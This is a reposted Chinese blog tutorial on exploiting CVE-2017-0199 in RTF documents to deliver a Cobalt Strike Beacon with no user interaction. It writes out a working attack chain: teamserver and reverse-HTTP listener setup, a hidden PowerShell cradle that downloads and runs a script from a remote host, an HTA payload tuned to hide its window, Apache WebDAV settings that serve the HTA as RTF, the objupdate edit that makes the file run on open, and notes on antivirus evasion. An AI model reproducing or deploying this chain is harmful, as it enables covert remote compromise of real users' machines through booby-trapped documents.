






# (转载）Cobalt Strike tutorial 下针对 CVE-2017-0199 利用 - 渗透测试中心 - 博客园

> 原文：[`www.cnblogs.com/backlion/p/6786312.html`](https://www.cnblogs.com/backlion/p/6786312.html)

CVE-2017-0199 利用 OLE 对象嵌入 Word / RTF 文档的方式，使得可以在没有用户交互的情况下执行其内容。OLE 由许多不同的程序支持，OLE 通常用于使在另一个程序中可用的程序中创建的内容。例如，可以在第二个 RTF 文件中插入和呈现 RTF 文档。然而，如果链接的 RTF 文件被替换为 HTML 应用程序（HTA）有效载荷，则*mshta*代理将执行它，从而导致远程命令执行，不需要用户交互。

在本文中，我们将解释创建一个有效的概念 RTF 文件的基础过程，该文件将执行 Cobalt Strike Beacon 有效载荷，而不需要用户交互，也不需要终端弹出窗口，因为这可以证明在 Red Team 中非常有用。

请在下面简要介绍相关步骤：

1.  ```
    1.Cobalt Strike 服务器将与侦听信标一起设置，以便在受害计算机（在此实例 Windows 8.1 中实时启动 Windows Defender）时，从信标有效载荷接收连接。

    2.将创建一个名为 exploit.rtf 文件的 RTF ，指向一个名为 CVE-2017-0199_POC 的第二个 RTF 文件的 OLE 对象（该文件将只有一些 POC 文本）。

    3.一旦 exploit.rtf 与 CVE-2017-0199_POC RTF 文档链接，该文件将被连接到使用的 payload

    4.该 exploit.rtf

    5.无需用户交互自动执行 HTA 进行修改。
    ```

**设置和生成 payload**

为了能够从执行的 payload 接收连接，需要以下步骤：

使用以下命令启动 Cobalt Strike Team Server：

```
./teamserver x.x.x.x password
```

使用该命令，运行默认 5050 端口上的 Cobal Strike Team Server。为了能够连接到服务器（使用与上一个命令设置的密码），您将需要启动客户端：

```
java -jar cobaltstrike.jar
```

客户端 GUI 启动后，让我们创建一个监听，从” Cobalt Strike 菜单点击“ Listeners：

```
Cobalt Strike -> Listeners
```


然后填写所需的信息，如名称，有效载荷，主机和端口，然后单击添加。从我们的场景中的以下图像可以看出，使用了一个在端口 4444 上侦听本地 IP 地址的

*windows/beacon_http/reverse_http *有效载荷：



单击保存以存储设置。继续输入您将使用的 IP 地址或任何解析的域名：



在此阶段，可以添加任何解析为之前设置的 IP 地址的域。

一旦你点击确定 ‘开始的监听器’将看起来像下面的截图：


一旦监听器启动，我们将需要生成在受害机器上执行的有效载荷。从 Attacks -> Web Drive-by 菜单中单击“Scripted Web Delivery”，如下图所示：



一旦弹出“ *Scripted Web Delivery* ”窗口，就会填写所需的参数。您可以修改它们以满足您的需求：



为了使脚本有效点击 Launch:


这将在我们的主机上放一个名为“evil”的 Powershell 脚本，该脚本将在运行上一图像所示命令的受害计算机上执行：

```
powershell.exe -nop -w hidden -c“IEX（（new-object net.webclient）.downloadstring（'http://172.16.17.39:80/evil'））”
```

总结：

*   端口 4444 上的监听器已创建

*   创建了一个反向连接指向我们的侦听器的信标有效载荷

**利用环境设置**

在本节中，我们将介绍第 2 步和第 3 步（请参考简介），以便将漏洞利用的环境设置为有效并且不需要用户交互。

**RTF OLE 链接**

我们需要执行的第一步是创建 CVE-2017-0199_POC RTF 文档，该文档将是一个具有任意内容的简单 RTF 文件。在我们的情景中，它将包括一个 POC 文本，如下图所示：



创建一个带有 POC 文本的简单 RTF

创建文件后，为方便起见，将其复制到本地安装的 Kali，因为我们需要为 OLE 链接过程准备好文件，这将在后续步骤中解释。为了文件 CVE-2017-0199_POC 被链接，我们将需要使用 Apache 服务，而这需要一些调整才能有效。

```
# mkdir /var/www/html/word/# cp CVE-2017-0199_POC.rtf /var/www/html/word/
```

这将将以前创建的文档复制到 Apache 的目录中，以便将文档提供给 HTTP OLE 链接。OLE 链接过程将涉及到由服务器发送的 PROPFIND 请求，从而有必要使 WebDav 启用： 

```
# a2enmod dav# a2enmod dav_fs# a2enmod dav_lock# a2enmod headers
```

如果一切顺利，您可以继续编辑 apache2.conf，以指示 Apache 有效地为 RFT 文件提供服务。

为此，请使用文本编辑器编辑*/etc/apache2/apache2.conf*文件，并在文件末尾添加以下行：

```
<Directory /var/www/html/word/>Header set Content-Type “application/rtf”</Directory><Directory>Dav on</Directory>
```

要使更改生效，请重新启动 Apache Web 服务器：

```
＃service apache2 restart
```

一旦 Apache 重新启动，我们可以通过几个简单的步骤继续进行链接过程：

*   用 Word 创建一个名为 exploit.rtf 的 RTF 文件

*   从“插入”菜单中单击“对象”，并将 HTTP 链接放入 CVE-2017-0199_POC 文档中，并勾选“链接到文件”选项，如下图所示

单击确定并保存文件。然后，文件将在“exploit”会话中进行修改，以便在没有任何用户交互的情况下触发有效载荷执行。

**HTA payload 创建**

我们现在需要生成一个 HTA 有效载荷，或者简单地放置一个由负责执行这些类型文件的 Microsoft mshta 代理执行的代码。

我们将修改 HTA 以下部分，以执行我们的有效载荷：

```
<html><head><script>var c= 'command' new ActiveXObject('WScript.Shell').Run(c);</script></head><body><script>self.close();</script></body></html>
```

要做到这一点，第一步是用我们要在受害机器上执行的 Powershell 命令替换’command’。

如前所述，命令如下：

```
powershell.exe -nop -w hidden -c“IEX（（new-object net.webclient）.downloadstring（'http://172.16.17.39:80/evil'））
```

所以修改后的内容现在将显示为：

```
<html><head><script>var c= 'powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring(\'http://172.16.17.39:80/evil\'))"'; new ActiveXObject('WScript.Shell').Run(c);</script></head><body><script>self.close();</script></body></html>
```

看起来似乎都很好，但是如果我们尝试执行这个 HTA，它会弹出一个 powershell/命令提示符窗口，但是我们希望尽可能的隐身。通过进一步研究，我们发现将 Run（c）字符串修改为 Run（c，0）将导致我们的命令在没有任何命令提示符/ powershell 弹出窗口的情况下被执行。所以最终的 HTA 有效载荷将如下：

```
<html><head><script>var c= 'powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring(\'http://172.16.17.39:80/evil\'))"'; new ActiveXObject('WScript.Shell').Run(c,0);</script></head><body><script>self.close();</script></body></html>
```

现在需要用这个新创建的 HTA 有效载荷替换“ */var/www/html/word/CVE-2017-0199_POC.rtf* ”文档。

可以使用以下命令：

将 HTA 有效载荷保存为/var/www/html/word/payload.hta

```
# cp /var/www/html/word/payload.hta /var/www/html/word/ CVE-2017-0199_POC.rtf
```

为了使此更改生效并触发有效载荷执行，我们将需要指示 Apache 将此文件作为 RTF 解析，而不是作为 HTA。要做到这一点，只需将 Content type 从“ application/rtf”更改为“ application/hta ”，即可将其更改为以前编辑的/etc/apache2/apache2.conf，然后重新启动 apache web 服务器。

总结：

*   exploit.rtf 和 CVE-2017-0199_POC.rtf 之间的 OLE 链接已创建

*   将创建一个将执行 Beacon 有效负载的 HTA，并将其替换为原始的 CVE-2017-0199_POC.rtf

*   Apache Web 服务器被修改为将/var/html/www/word 目录中的任何 RTF 文件为 HTA 提供服务，以便执行 HTA 有效载荷

**开发**

为了使有效载荷即使没有用户交互也可以执行成功，，我们将需要修改以前创建的 exploit.rtf 文件。我们将添加的参数是“objupdate”，顾名思义，当打开恶意 exploit.rtf 时，将触发自动更新/执行链接文件。为了应用此更改将需要以下命令：

```
sed -ie ‘s/objautlink/objautlink\\objupdate/g’ exploit.rtf
```

exploit.rtf 现在可以发送，它将触发一个 Beacon 有效载荷，无需任何用户交互即可执行终端，您可以从以下截图和 POC 视频中看到



exploit.rtf 被打开，并且不需要用户交互来触发有效负载来执行

我们的监听程序已经成功收到了一个反向 HTTP 连接：


**杀软警告**

在我们的实验室环境中，我们在 Windows 8.1 实例上执行有效负载，启用 Windows Defender 实时保护。使用 Windows Defender，该文件未被标记为恶意软件。但是，我们还在安装了卡巴斯基的 Small Office Security 的 Windows 7 SP1 实例上尝试了该文件。在这种环境下，卡巴斯基将我们的文件标记为恶意文件，并阻止有效载荷执行